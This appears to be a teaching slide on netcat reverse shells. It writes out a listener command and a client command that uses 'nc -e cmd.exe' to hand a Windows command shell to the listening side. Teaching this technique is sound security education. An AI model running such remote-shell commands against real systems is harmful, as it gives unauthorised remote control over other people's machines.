

# Reverse Shells
Netcat can also be used to push a client session from the client to
   the server. This technique is called a reverse shell and can be
   achieved with following commands
At listener: nc –l –p 1234
At client: nc 127.0.0.1 1234 –e cmd.exe